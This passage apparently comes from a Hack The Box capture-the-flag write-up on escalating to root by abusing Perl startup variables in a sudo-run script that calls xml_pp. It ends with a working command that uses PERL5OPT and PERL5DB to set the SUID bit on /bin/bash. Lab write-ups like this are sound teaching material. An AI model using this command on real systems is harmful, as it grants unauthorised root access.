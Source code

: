 ![Alt text](<../../../assets/images/HTBPics/Pasted image 20230929224843.png>)

We see that this script file calls `/usr/bin/echo` and `/usr/bin/xml_pp`.
`/usr/bin/echo` is a binary file so nothing special.
But `/usr/bin/xml_pp` is using Perl script to run.

![Alt text](<../../../assets/images/HTBPics/Pasted image 20230929225129.png>)

That allowed me to run scripts as root, given that I could set the environment when running Perl.
This vulnerability is called "perl_startup" Privilege Escalation.

[https://www.exploit-db.com/exploits/39702](https://www.exploit-db.com/exploits/39702)

```bash
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```
